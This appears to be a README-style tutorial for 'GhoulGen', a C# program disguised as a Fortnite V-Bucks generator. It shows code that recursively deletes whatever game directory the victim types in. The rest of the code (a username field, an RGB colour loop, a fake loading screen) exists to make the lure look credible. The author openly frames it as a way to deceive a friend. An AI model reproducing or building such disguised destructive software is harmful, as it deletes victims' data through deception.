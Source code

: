 ## GhoulGen C# Tutorial

What you need:
Visual Studio, 
Know how to compile a program, 
A friend.

This is a simple program in C#. This is literally all it takes to waste 10 minutes of your friends precious lifetime.
```csharp
if (Directory.Exists(fortnite))
  {
     Directory.Delete(fortnite, true);
  }else{
     MessageBox.Show("Invalid File Path!", "GhoulGen", MessageBoxButtons.OK, MessageBoxIcon.Error);
  }
  ```
 
It also strings the username and the fortnite directory, aswell as the amount of vbucks he wants. This is just to make it more realistic.
 ```csharp
string userName = username.Text;
string fortnite = textBox1.Text;
```

Also added RGB to the form. Who in the right mind wouldn't trust some random software made in 10 minutes with some cool changing colors?
```csharp
private void rgb()
        {
            Control.CheckForIllegalCrossThreadCalls = false;
            int rgbamount = 1;
            int r = 255;
            int g = 0;
            int b = 0;
            for (; ; )
            {
                this.BackColor = Color.FromArgb(r, g, b);
                bool flag = r > 0 && b == 0;
                if (flag)
                {
                    r -= rgbamount;
                    g += rgbamount;
                }
                bool flag2 = g > 0 && r == 0;
                if (flag2)
                {
                    g -= rgbamount;
                    b += rgbamount;
                }
                bool flag3 = b > 0 && g == 0;
                if (flag3)
                {
                    b -= rgbamount;
                    r += rgbamount;
                }
                Thread.Sleep(5);
            }
        }
```

I even took the time and bothered to add a whole loading screen. Once again, literal useless. Just to make it look more realistic.

![](https://images-ext-1.discordapp.net/external/l2Mqf90-YSlKX8Yq4qWeZYLH3d9Em_mTXD6jJ0sIg-k/https/cdn.upload.systems/uploads/v0pJosbk.png)
